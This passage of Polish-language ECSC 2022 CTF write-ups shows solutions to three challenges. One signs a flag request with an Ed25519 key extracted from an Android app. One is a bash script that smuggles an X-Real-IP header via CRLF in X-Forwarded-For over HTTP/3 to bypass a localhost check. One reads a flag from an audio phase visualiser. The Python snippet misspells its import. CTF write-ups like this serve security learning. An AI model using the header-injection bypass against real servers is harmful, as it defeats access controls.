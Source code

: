 Kod aplikacji (z jadxgui):
Wysyła request z id i sygnaturą
![image](https://raw.githubusercontent.com/piratehacker/ecsc-2022-poland-wrietups/master/images/Pasted%20image%2020220716203200.png.png)

Ładowanie klucza Ed25519 (R.raw.key):
![image](https://raw.githubusercontent.com/piratehacker/ecsc-2022-poland-wrietups/master/images/Pasted%20image%2020220716203223.png.png)

Klucz można znaleźć w zasobach:
![image](https://raw.githubusercontent.com/piratehacker/ecsc-2022-poland-wrietups/master/images/Pasted%20image%2020220716203309.png.png)

Należy podpisać input `flag` i przekonwertować go na array z sygnaturą

```python
import ed2551
  
keydata = open("key.bin","rb").read()
signing_key = ed25519.SigningKey(keydata)
  
res = signing_key.sign(b'flag')
print(res)
  
arr = [x & 255 for x in res]
print(arr)
```

Potem wysłać request POST na https://validator.ecsc22.hack.cert.pl
```json
{"id": "flag", "signature": <arr ze skryptu>}
```

## QuicLookAtThis
Zadanie: Docker z Nginxem obsługującym HTTP3, ze zmodyfikowanym kodem który nie waliduje headerów

Trzeba obejść localhost checka

Główną częścią zadania było znalezienie działającego klienta http3 (w moim przypadku https://github.com/cloudflare/quiche)

Header X-Forwarded-For jest przesyłany przez proxy do serwera HTTP/1 bez wcześniejszej walidacji, co pozwala na wstrzyknięcie headera X-Real-IP

```bash
#!/bin/bash

url=$(echo -e "https://quiclookthis.ecsc22.hack.cert.pl:18443/get/flag/get/flag");

header=$(echo -e "X-Forwarded-For: 127.0.0.1\r\nX-Real-IP: 127.0.0.1");

cargo run --bin quiche-client -- --no-verify "$url" -H "$header" $1;
```


## Looking at sound
Rozwiązanie: Użycie pluginu NUGEN VIsualiser2 w Waveform i odczytanie flagi z Phase Inspector
